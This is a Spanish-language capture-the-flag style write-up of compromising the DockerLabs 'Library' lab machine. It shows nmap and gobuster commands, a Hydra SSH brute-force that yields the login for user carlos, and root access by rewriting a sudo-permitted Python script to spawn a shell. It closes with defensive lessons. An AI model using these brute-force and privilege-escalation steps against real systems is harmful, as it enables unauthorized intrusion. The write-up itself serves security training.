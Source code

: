
---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```


![Despliegue de la máquina](Imágenes/2025-05-14_08-28.png)

--------

![Ping a la máquina vulnerable](Imágenes/Capturas.png)

---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```

![Escaneo de puertos](Imágenes/Capturas_1.png)


---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


![Escaneo de puertos](Imágenes/Capturas_2.png)

---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


![Servicios detectados](Imágenes/Capturas_3.png)

---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


![Página por defecto de Apache](Imágenes/Capturas_4.png)

---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


![Directorios descubiertos](Imágenes/Capturas_5.png)

---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


![Cadena sospechosa encontrada](Imágenes/Capturas_6.png)

---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```



---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing jquery](Imágenes/Capturas_7.png)

---
![Resultados adicionales](Imágenes/Capturas_8.png)

---

![Credenciales encontradas](Imágenes/Capturas_9.png)

---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```
![Permisos sudo sobre script.py](Imágenes/Capturas_10.png)


---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```


---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉

![Shell como root](Imágenes/Capturas_11.png)

---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
